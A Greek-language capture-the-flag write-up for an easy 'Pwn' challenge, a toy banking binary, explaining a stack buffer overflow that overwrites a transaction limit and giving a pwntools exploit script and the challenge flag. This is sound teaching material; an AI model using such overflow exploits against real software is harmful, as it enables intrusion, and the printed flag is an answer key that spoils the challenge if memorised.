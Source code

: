 # Horizon Financial

| Δοκιμασία | 	ΕHorizon Financial |
| :------- | :----- |
| Δυσκολία | Εύκολη |
| Κατηγορία | Pwn |
| Λύσεις | 13 |
| Πόντοι | 420 |

### Επισκόπηση Δοκιμασίας

Η τράπεζα Horizon Financial έκανε κάποιες αλλαγές στην εφαρμογή της για να κρατήσεις τις συναλλαγές σε μικρές ποσότητες. Η λειτουργία φαίνεται αρκετά ασφαλής, συμφωνείς;

Το πρόγραμμα μας ζητάει το input για να δώσουμε ένα ποσό σε δολάρια και μετά ένα σχόλιο για την συναλλαγή. Το πρόγραμμα μας κόβει εάν δώσουμε ίσο ή μεγαλύτερο ποσό από 1000 δολάρια. 


```
-----=[ Horizon Financial ]=-----

~Innovation in Every Transaction.
                     since 2001~

Max value: 1000


[+] Total ammount: 0$

Enter the ammount > 10

Please take some time, and leave us a small comment > this is a comment

Transaction completed successfully.

[+] Total ammount: 10$
Do you want to continue ? [y/n]: y

Max value: 1000


[+] Total ammount: 10$

Enter the ammount > 1005

Please take some time, and leave us a small comment > this is a commnet

Transcaction failed. Insert ammounts lower than 1000$

[+] Total ammount: 10$
Do you want to continue ? [y/n]: n

Thank you for using our system.

```

# Επίλυση Δοκιμασίας

### Έλεγχος του αρχείου 

Αρχικά αφού δούμε τη λειτουργία του binary βλέπουμε λεπτομέρειες για το executable με την εντολή `file`.

```bash
file bank-app
bank-app: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7c3ac722ef081ed4cf7c58909695370577f9b894, for GNU/Linux 3.2.0, not stripped
```
- Dynamically linked 
  - Όταν ένα εκτελέσιμο πρόγραμμα είναι "dynamically linked" (δυναμικά συνδεδεμένο), αυτό σημαίνει ότι χρησιμοποιεί δυναμική σύνδεση με βιβλιοθήκες κατά την εκτέλεσή του. Αντί να ενσωματώνει όλο τον κώδικα των βιβλιοθηκών που χρησιμοποιεί απευθείας στο εκτελέσιμό του, το πρόγραμμα δεσμεύει δυναμικά τις βιβλιοθήκες αυτές κατά την εκτέλεση.   
- not stripped
  - Όταν το εκτελέσιμο πρόγραμμα είναι "not stripped" ουσιαστικά δεν αφαιρεί την πληροφορία από τον κώδικά του. Αυτή η πληροφορία περιλαμβάνει συνήθως συμβολικά ονόματα, σύμβολα, και άλλες πληροφορίες που χρησιμοποιούνται κατά την ανάπτυξη και την αποσφαλμάτωση του κώδικα

Έπειτα ελέγχουμε τα security mitigations. Αυτά που μας ενδιαφέρουν για το συγκεκριμένο είναι το canary το οποίο είναι disabled.

```bash
checksec --file bank-app
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
- No canary
  - Ο όρος "canary" αναφέρεται στον "canary value" ή "stack cookie" που είναι ένα τυχαίο ή προκαθορισμένο αριθμητικό πεδίο που εισάγεται στον κώδικα μιας εφαρμογής. Αυτή η τεχνική είναι απενεργοποιημένη και δεν θα μπορεί να μας εμποδίσει αν υπάρξει υπερχείλιση μίας μεταβλητής στη μνήμη.

### Στατική ανάλυση του κώδικα σε decomplier (ghidra)

![decomp](assets/decomp.png)

Στην παραπάνω εικόνα μπορούμε να δούμε τον ψευδοκώδικα του δυαδικού αρχείου που μας έχει δοθεί. Παρατηρούμε ότι αν δώσουμε καλέιται η συνάρτηση `win` αν το πόσο που δώσουμε είναι μεγαλύτερο του 1000. Ωστόσο το πρόγραμμα μας κόβει εάν κάνουμε κάτι τέτοιο. Παρατηρώντας λίγο καλύτερα τις συνθήκες ελέγχου βλέπουμε ότι το πόσο που δίνουμε συγκρίνεται με μια άλλη μεταβλητή που έχει αρχικοποιηθεί με την τιμή 1000 και ονομάζεται `long_10`

### Εκμετάλευση ευπάθειας

Στη γραμμή 26 της φωτογραφίας μπορούμε να αφήσουμε ένα σχόλιο μέσω της μεταβλητής `long_38` με την function `read`. Η `read` παίρνει 3 ορίσματα, το πρώτο είναι το `file descriptor(0=stdin)`, μια μεταβλητή για να διαβάσει τη συμβολοσειρά και τέλος τον αριθμό των bytes που γράφονται στο `long_38 `buffer μας.

Παρατηρούμε στην μεταβλητή `long_38` έχουν οριστεί σε μέγεθος 36 bytes ενώ στην function read ο χρήστης μπορεί να δώσει 41 bytes. Οπότε έχουμε `buffer overflow` το οποίο μας επιτρέπει να αλλάξουμε την τιμή της `long_10` και να δώσουμε μια μικρότερη του 1000. Αυτό συμβαίνει γιατί στη μνήμη οι θέσεις που καταλαμβάνει η συγκεκριμένη μεταβλητή μπορεί να ξεπεραστούν και να πάμε να γράψουμε σε ένα γειτονικό σημείο στη μνήμη όπου είναι η τιμή που κρατάει η `long_10`. 

Αυτό το κάνουμε για να μπορέσουμε να δώσουμε ένα ποσό μεγαλύτερο από την τιμή της `long_10` το οποίο πλέον δεν θα είναι 1000 αλλά ένας μικρότερος αριθμός όταν θα μας ξαναζητήσει το πρόγραμμα input. Τέλος, απλά δίνουμε μια μεγαλύτερη τιμή από το `long_10` και καλείται η win :).

Στο παρακάτω κώδικα μπορούμε να δούμε αυτή τη διαδικασία με σχόλια.

```python
#!/usr/bin/python3
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

exe = './bank-app'

elf = context.binary = ELF(exe, checksec=False)

# Start program
io = start()

io.sendline(b"100")

# Overwrite the max variable with a value smaller than 1000
payload = 40*b"A"

io.sendline(payload)

io.sendline(b"y")

# Insert a value higher than 778
io.sendline(b"802")

io.sendline(b"This is a test comment")

io.interactive()

```
 
# Σημαία

`FLAG{0oopss..0n3_byt3_m1ght_b3_cr1t1c4l_s0m3_t1mes_391812b0d317be0584b382403f9ad0f2}`

